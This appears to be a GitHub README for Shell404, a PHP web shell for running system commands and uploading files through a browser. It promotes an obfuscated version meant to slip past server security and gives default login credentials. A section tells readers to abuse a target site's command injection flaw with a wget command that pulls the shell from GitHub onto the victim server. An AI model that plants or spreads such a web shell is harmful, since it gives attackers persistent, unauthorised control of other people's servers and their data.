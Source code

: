 # Shell404 🛠️

**Shell404** is a simple yet powerful PHP web shell created by [Anon-404](https://github.com/Anon-404). It provides a minimalistic interface for executing system commands and managing file uploads securely, all through your web browser.

## ✨ Features

- ⚙️ **Command Execution**: Run system commands directly from the web interface and view the output.
- 📁 **File Upload**: Safely upload files to the server with a straightforward interface.
- 🔐 **Login Authentication**: Restrict access to authorized users with a username and password system.
- 🛡️ **Obfuscated Version**: Use the obfuscated shell (`obf-Shell404.php`) for bypassing server security restrictions.

## 🔑 Default Login Credentials 

```php
$user = "Shell404";
$pass = "Shell404";
```

## 🚀 Installation

1. 📥 Clone the repository or download either the original `shell404.php` or the obfuscated `obf-Shell404.php` file.
2. 🚀 Upload the chosen file to your server's web directory.
3. 🌐 Access the web shell via your browser by navigating to the file.

## 🛡️ Usage

1. 🌐 Open the web shell in your browser.
2. 🔑 Login using the default credentials:
   - **Username**: Shell404
   - **Password**: Shell404
3. After logging in, you can:
   - ⚙️ **Command Input**: Enter system commands and view the results in real-time.
   - 📁 **File Upload**: Use the file upload feature to transfer files to the server.

## 💻 Direct Download via Command Injection

If the target website has a **command injection vulnerability**, you can easily download the Shell404 web shell using the following command:

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/obf-Shell404.php
```
### If have server security restriction

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/obf-Shell404.php
```

This will fetch the obfuscated `obf-Shell404.php` file from the GitHub repository to the target server, allowing you to access the shell through the browser.

## 🛠️ Customization

You can personalize the default username and password by editing the variables at the top of the `shell404.php` or `obf-Shell404.php` file:

```php
$user = "Shell404";
$pass = "Shell404";
```
